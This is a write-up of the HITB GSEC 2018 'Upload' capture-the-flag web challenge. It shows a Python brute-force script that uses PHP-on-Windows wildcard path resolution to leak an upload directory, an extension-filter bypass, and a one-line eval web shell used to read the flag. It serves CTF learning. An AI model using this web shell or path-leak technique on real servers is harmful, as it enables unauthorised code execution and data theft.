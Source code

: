 ```yaml
---
title: "HITB GSEC Qualifiers 2018 - Upload (Web)"
header:
  overlay_image: /assets/images/hitbgsecquals2018/upload/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Christopher Burns on Unsplash"
tags:
  - hitbgsecquals2018
  - writeup
  - web
---
```


The `FindFirstFile()` function in the Windows API can cause odd behaviour in
PHP applications running on Windows. We leverage this to leak information about
the path to a dynamically generated file.

## Challenge Description

```
Get shell !


http://47.90.97.18:9999
```

#### Points

253 Points

60 Solved

## Solution

The application allows a user to upload images and display the height and
widths. When grabbing the index of the web application we get the following:

```html
<head>
 <title>Where Path~?</title>
</head>
	<form action="upload.php" method="post" enctype="multipart/form-data">
        <input type="file" name="file" value="up"/>
        <input type="submit" value="upload" name="submit" />
    </form>
	<!--pic.php?filename=default.jpg-->
```

If we get the page `47.90.97.18:9999/pic.php?filename=default.jpg`, the server
returns:

```html
width=497</br>height=477
```

We can upload files like so:

```
POST /upload.php HTTP/1.1
Host: 47.90.97.18:9999
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101
Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://47.90.97.18:9999/
Content-Type: multipart/form-data; boundary=---------------------------
657249358323879871236420951
Content-Length: 338
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------657249358323879871236420951
Content-Disposition: form-data; name="file"; filename="testing.abc"
Content-Type: text/php

testing

-----------------------------657249358323879871236420951
Content-Disposition: form-data; name="submit"

upload
-----------------------------657249358323879871236420951--

```

This creates a file in a random directory and sets the filename to the epoch
with your chosen extension:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/7.0
X-Powered-By: PHP/5.6.35
Date: Fri, 13 Apr 2018 20:37:48 GMT
Connection: close
Content-Length: 17

1523651869.abc
```

We can exploit the way paths are resolved by PHP on Windows as described in
this article:
http://www.madchat.fr/coding/php/secu/onsec.whitepaper-02.eng.pdf.

First, we upload a valid JPEG image and obtain the filename. (1523653039.jpg)

```python
import requests
import string

url = "http://47.90.97.18:9999/pic.php?filename=../PATH<</1523653039.jpg"
r = requests.session()
dirname = ""
while True:
    for i in string.printable:
        print url.replace("PATH",dirname+i)
        out = r.get(url.replace("PATH",dirname+i))
        if out.text != "image error":
	    dirname+=i
	    print dirname
	    break
```

Running the script:

```shell
$ python brute.py
http://47.90.97.18:9999/pic.php?filename=../0<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../1<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../2<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../3<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../4<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../5<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../6<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../7<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../8<</1523653039.jpg
...
http://47.90.97.18:9999/pic.php?filename=../87194f13726af7cee27ba2cfe97b60dc<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../87194f13726af7cee27ba2cfe97b60dd<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../87194f13726af7cee27ba2cfe97b60de<</1523653039.jpg
http://47.90.97.18:9999/pic.php?filename=../87194f13726af7cee27ba2cfe97b60df<</1523653039.jpg
87194f13726af7cee27ba2cfe97b60df
```

The directory is 87194f13726af7cee27ba2cfe97b60df. Now, we can upload a PHP
script to evaluate arbitrary code. Note that we use the extension `.PHP` to
bypass the filter.

```
POST /upload.php HTTP/1.1
Host: 47.90.97.18:9999
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://47.90.97.18:9999/
Content-Type: multipart/form-data; boundary=---------------------------657249358323879871236420951
Content-Length: 362
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------657249358323879871236420951
Content-Disposition: form-data; name="file"; filename="attack.PHP"
Content-Type: text/php

<?php echo eval($_GET['cmd']);?>

-----------------------------657249358323879871236420951
Content-Disposition: form-data; name="submit"

upload
-----------------------------657249358323879871236420951--
```

We can now run PHP code.

```
GET /87194f13726af7cee27ba2cfe97b60df/1523653724.PHP?cmd=echo(phpversion()); HTTP/1.1
Host: 47.90.97.18:9999
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/7.0
X-Powered-By: PHP/5.6.35
Date: Fri, 13 Apr 2018 21:15:05 GMT
Connection: close
Content-Length: 6

5.6.35
```

We can grab the flag like so:

```
GET /87194f13726af7cee27ba2cfe97b60df/1523653724.PHP?cmd=foreach%20(glob(
"../flag*")%20as%20%24filename)%20%7B%20echo%20"%24filename%20%3D>%20"%3B
var_dump(file_get_contents(%24filename))%3B%20%7D; HTTP/1.1
Host: 47.90.97.18:9999
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/7.0
X-Powered-By: PHP/5.6.35
Date: Fri, 13 Apr 2018 21:16:21 GMT
Connection: close
Content-Length: 102

../flag.php => string(73) "<?php
echo "flag is here";
//HITB{e5f476c1e4c6dc66278db95f0b5a228a}
?>"
```


Flag: **HITB{e5f476c1e4c6dc66278db95f0b5a228a}**

